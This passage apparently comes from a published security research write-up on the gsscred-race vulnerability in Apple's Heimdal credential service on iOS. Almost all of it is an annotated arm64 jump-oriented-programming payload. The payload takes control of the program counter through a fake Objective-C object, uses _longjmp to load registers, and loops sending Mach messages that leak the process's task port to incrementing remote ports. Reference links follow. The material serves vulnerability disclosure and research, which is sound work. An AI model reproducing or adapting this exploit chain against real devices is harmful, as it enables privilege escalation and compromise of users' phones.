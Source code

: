 		pc = LDP_X1_X0_X0_20__BR_X1

	;; We get control of PC with X0 pointing to a fake "name" Objective-C object.
	;; The isa pointer is managed by the generic part of the payload, but
	;; everything after that is usable for the arm64 payload.
	;;
	;; Before entering the main loop, we need to set registers x19 through x27. We
	;; could try to preserve the callee-saved registers and x29, x30, and sp so
	;; that our caller could resume after the exploit payload runs, but it's easier
	;; to just obliterate these registers and permanently stall this thread so that
	;; the corruption never manifests a crash. Unfortunately, this also means we
	;; leak all associated resources, so we have only one shot before we risk
	;; violating the Jetsam limit.
	;;
	;; We need to set the following register values:
	;; 	x19 = REGION_X19
	;; 	x20 = INITIAL_REMOTE_AND_LOCAL_PORT
	;; 	x21 = PORT_INCREMENT
	;; 	x22 = JOP_STACK_FINALIZE
	;; 	x23 = mach_msg_send
	;; 	x24 = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP
	;; 	x25 = LDP_X8_X2_X19__BLR_X8
	;; 	x26 = MAX_REMOTE_AND_LOCAL_PORT
	;; 	x27 = REGION_MACH_MESSAGE

	LDP_X1_X0_X0_20__BR_X1 (common):
			ldp x1, x0, [x0, #0x20]
			br x1
		x1 = REGION_ARG1[20] = _longjmp
		x0 = REGION_ARG1[28] = REGION_JMPBUF

	_longjmp:
		x19 = REGION_X19
		x20 = INITIAL_REMOTE_AND_LOCAL_PORT
	 	x21 = PORT_INCREMENT
	 	x22 = JOP_STACK_FINALIZE
	 	x23 = mach_msg_send
	 	x24 = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP
	 	x25 = LDP_X8_X2_X19__BLR_X8
	 	x26 = MAX_REMOTE_AND_LOCAL_PORT
	 	x27 = REGION_MACH_MESSAGE
		x30 = LDP_X8_X2_X19__BLR_X8
		sp = FAKE_STACK_ADDRESS
		pc = LDP_X8_X2_X19__BLR_X8

	;; We are about to enter the main loop, which will repeatedly send Mach
	;; messages containing the the current process's task port to incrementing
	;; remote port numbers.
	;;
	;; These are the registers during execution:
	;; 	x2 = Current JOP stack position
	;; 	x3 = Current gadget
	;; 	x8 = LDP_X3_X2_X2__BR_X3
	;; 	x20 = CURRENT_REMOTE_AND_LOCAL_PORT


[iOS 12]: https://support.apple.com/en-us/HT209106
[gsscred-race]: https://github.com/bazad/gsscred-race
[Heimdal]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/
[source]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/lib/heimcred/server.m.auto.html
[triple_fetch]: https://bugs.chromium.org/p/project-zero/issues/detail?id=1247
[Modern Objective-C Exploitation Techniques]: http://phrack.org/issues/69/9.html